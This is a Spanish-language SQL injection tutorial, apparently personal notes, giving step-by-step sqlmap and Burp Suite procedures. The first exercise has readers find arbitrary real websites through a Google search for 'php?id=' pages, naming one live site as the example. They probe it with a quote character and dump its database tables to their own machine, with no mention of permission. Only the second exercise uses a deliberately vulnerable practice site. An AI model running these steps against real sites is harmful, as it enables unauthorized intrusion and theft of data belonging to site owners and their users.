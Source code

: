 PRACTICA 1 (GET)

- Abrimos el navegador y vamos a Google.com
- Buscamos **php?id=1** y elegimos alguno de los resultados

EJEMPLO: <https://www.burobd.org/network-and-linkages.php?id=8>

- Y para saber si el sitio es vulnerable al final de la URL agregamos ‘
- Si es vulnerable nos debe mandar un error relacionado a “Error SQL Syntax”
- Si es así copiamos el enlace original de la página y en la terminal ejecutamos:

**_sqlmap -u &lt;URL&gt; --dbs_**

- Al final del análisis se nos mostraran las BD disponibles, en nuestro ejemplo nos interesa burobd_bd_2025 por lo que ejecutamos:

**_sqlmap -u &lt;URL&gt; -D &lt;BDName&gt; --tables_**

- Obtenidas las tablas ahora queremos mostrar el contenido de una de ellas:
- **_sqlmap -u &lt;URL&gt; -D &lt;BDName&gt; -T &lt;tableName&gt; --columns_**
- Y ahora volcaremos estas columnas que elegiremos a nuestra maquina

**_sqlmap -u &lt;URL&gt; -D &lt;BDName&gt; -T &lt;tableName&gt; -C &lt;col1,col2,etc&gt; --dump_**

- Copiamos la dirección donde se nos guardó el volcado y en otra terminal lo abrimos con leafpad

**_leafpad &lt;UBICACION&gt;_**

- Veremos los datos obtenidos de la tabla en la base de datos

PRACTICA 2 (GET)

- Vamos a ir a un sitio web intencionalmente vulnerable

**_testphp.vulnweb.com/index.php_**

- Navegamos un poco en la web y copiamos una de sus URL
- Y en la terminal podemos hacer lo mismo que en la PRACTICA 1

PRACTICA 3 (POST)

- Abrimos Burp Suite, seleccionamos un proyecto temporal, lo iniciamos y en Proxy>Intercept>Intercept On
- Y ahora redirigiremos el tráfico configurando nuestro PROXY en el

navegador>Ajustes/Preferencias>Proxy>Settings>Manual proxy

- - HTTP Proxy: 127.0.0.1
    - Port: 8080
    - HTTPS Proxy:127.0.0.1
    - Port: 8080
- Abrimos en Burp los Proxy Settings>Export CA Certificate>Certificate in DER format
- Guardamos el documento en el escritorio con la extensión .der
- Abrimos el navegador>Ajustes>Certificates>View>Authorities>import
- Seleccionamos nuestro documento antes guardado y se habrá importado el certificado
- Y ahora todo el tráfico ira al servidor proxy antes que llegue a internet
- Nos vamos a una página vulnerable o que use POST(Login)
- Tratamos de logearnos con datos aleatorios
- Abrimos Burp Suite y nos vamos a HTTP History
- Buscamos el host al que entramos antes con POST, seleccionamos y en la parte inferior tendremos más información que seleccionaremos completamente, clic derecho y Copy To File
- Guardaremos el texto como sqli.txt y abriremos la terminal
- Ejecutamos **_sqlmap -r &lt;ubicacionDeNuestroTxt&gt;_**
- Comenzaremos a buscar vulnerabilidades como en la PRACTICA 1 y 2 para tratar de obtener la BD

EXTRAS (Pruebas a otras Paginas)
